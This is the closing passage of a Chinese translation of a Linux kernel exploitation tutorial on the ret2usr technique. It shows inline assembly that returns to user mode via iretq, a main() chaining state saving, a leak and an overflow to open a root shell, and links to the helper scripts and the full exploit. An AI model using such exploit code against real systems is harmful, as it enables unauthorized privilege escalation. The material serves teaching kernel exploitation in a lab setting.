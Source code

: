 ```c
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
```
最终，我们可以以指定顺序调用精心设计的代码片段，打开根shell：
```c
int main() {
    save_state();
    open_dev();
    leak();
    overflow();  
    puts("[!] Should never be reached");
    return 0;
}
```

#### 总结
以上就是我关于Linux内核利用学习过程的第一篇文章。在这篇文章中，我演示了如何为Linux内核pwn设置环境，以及内核利用中最简单的技术：`ret2usr`。
在下一篇文章中，我将通过添加越来越多的保护功能来逐渐增加难度，并向您展示相应的绕过技术。

#### 附录
提取内核映像的脚本为[extract-image.sh](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/extract-image.sh)。
解压文件系统的脚本为[decompress.sh](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/decompress.sh)。
编译利用和压缩文件系统的脚本为[compress.sh](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/compress.sh)。
完整的`ret2usr`利用代码是[ret2usr.c](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/ret2usr.c)。

